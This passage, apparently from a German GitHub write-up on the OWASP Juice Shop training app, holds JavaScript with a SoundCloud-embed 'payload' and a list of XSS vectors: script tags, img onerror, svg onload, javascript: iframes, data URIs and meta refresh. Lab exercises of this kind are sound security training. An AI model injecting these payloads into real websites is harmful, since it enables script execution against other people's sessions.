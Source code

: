 ```javascript
                url: "https://api.soundcloud.com/tracks/771984076",
                color: "#ff5500",     // Orange
                auto_play: true,      // WICHTIG: Automatisches Abspielen
                hide_related: false,
                show_comments: true,
                show_user: true,
                show_reposts: false,
                show_teaser: true
            }
        }
    };
    
    console.log('🎵 SoundCloud XSS Payload:', payload);
    return payload;
}
```

### 💡 Verschiedene XSS-Vektoren testen

```javascript
// Sammlung von XSS Payloads für Juice Shop
const xssPayloads = [
    // 1. Classic Alert
    `<script>alert('XSS')</script>`,
    
    // 2. IMG Tag
    `<img src=x onerror="alert('XSS')">`,
    
    // 3. SVG
    `<svg onload="alert('XSS')">`,
    
    // 4. iframe JavaScript
    `<iframe src="javascript:alert('XSS')">`,
    
    // 5. Event Handler
    `<body onload="alert('XSS')">`,
    
    // 6. Data URI
    `<object data="data:text/html,<script>alert('XSS')</script>">`,
    
    // 7. Style Tag
    `<style>@import'javascript:alert("XSS")';</style>`,
    
    // 8. Meta Refresh
    `<meta http-equiv="refresh" content="0;url=javascript:alert('XSS')">`,
    
    // 9. SoundCloud Bonus
    `<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>`
];

// Test-Funktion
function testXSS() {
    console.log('🧪 XSS Payloads zum Testen:');
    xssPayloads.forEach((payload, index) => {
        console.log(`${index + 1}. ${payload.substring(0, 50)}...`);
    });
}
```
